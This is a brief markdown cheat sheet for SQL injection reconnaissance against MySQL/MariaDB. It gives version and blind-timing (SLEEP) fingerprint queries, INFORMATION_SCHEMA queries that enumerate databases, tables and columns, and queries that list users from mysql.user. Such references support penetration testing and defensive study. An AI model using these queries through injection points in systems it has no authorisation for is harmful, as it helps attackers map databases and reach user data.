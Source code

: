 # SQL Injection Command Cheat Sheet

## Database Fingerprinting

### MySQL/MariaDB Detection
```sql
SELECT @@version              -- Get database version
SELECT POW(1,1)               -- Test for MySQL (returns 1)
SELECT SLEEP(5)               -- Blind test (delays response for 5 seconds)
```

## Database Enumeration

### Database Discovery
```sql
-- List all databases
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

-- Get current database
SELECT database();
```

### Table Discovery
```sql
-- List tables in a specific database
SELECT TABLE_NAME, TABLE_SCHEMA
FROM INFORMATION_SCHEMA.TABLES
WHERE table_schema='database_name';

-- List all tables
SELECT TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES;
```

### Column Discovery
```sql
-- List columns in a specific table
SELECT COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name='table_name';

-- List all columns in a database
SELECT COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_schema='database_name';
```

## User Information & Privileges

### Current User
```sql
SELECT USER();                -- Current user
SELECT CURRENT_USER();        -- Current user (alternative)
SELECT user FROM mysql.user;  -- List all users
```
